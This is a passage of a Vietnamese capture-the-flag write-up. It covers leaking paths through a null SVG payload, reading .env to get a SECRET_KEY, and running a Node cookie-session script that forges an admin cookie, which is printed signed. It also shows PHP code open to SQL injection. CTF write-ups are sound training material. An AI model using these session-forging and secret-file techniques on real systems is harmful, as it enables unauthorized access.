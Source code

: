 Trigger `error` với payload `{"svg": null}` ta được các root directory chứa web app: 
```
/app/node_modules/convert-svg-core/src/Converter.js
/app/node_modules/convert-svg-core/src/API.js
/app/routes/index.js
/app/node_modules/express/lib/router/layer.js
/app/node_modules/express/lib/router/route.js
/app/node_modules/express/lib/router/index.js
```

Nhờ đó ta đọc được các file: `/app/index.js`, `/app/config.js`, `.env`(app nodejs hay có file .env chứa các biến môi trường sẵn sàng để export ra)....

Ta được *SECRET_KEY* của web app cũng như biết được app nodejs này dùng `cookie-session` để sign cookies.

Với *SECRET_KEY* ta viết được hàm sinh cookies admin.
```js
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()


app.set('trust proxy', 1) // trust first proxy

app.use(cookieSession({
    name: 'session',
    keys: ['5921719c3037662e94250307ec5ed1db'] // secret key
}))

app.get('/', function(req, res, next) {
    req.session = {
        username: 'admin'
    }
    // console.log();
    return res.status(200).json({status: 'success'})
})

app.listen(3000)
```

Vậy ta đã được cookie với username là admin và đã được sign bởi `SECRET_KEY` leak được:
```
session=eyJ1c2VybmFtZSI6ImFkbWluIn0=&session.sig=EYdvy2mhVoEznETyhYjNYFFZM8o
```
Thế cookies admin, ta được flag:

**flag**: `pass`

## Intergalactic Post

**Description**: Chall cho source code

file `Database.php`:
```php
    public function subscribeUser($ip_address, $email)
    {   
        $results = $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
        return $results;
    }
```
Rõ như ban ngày, ta có thể thấy web app dính lỗi SQL injection.
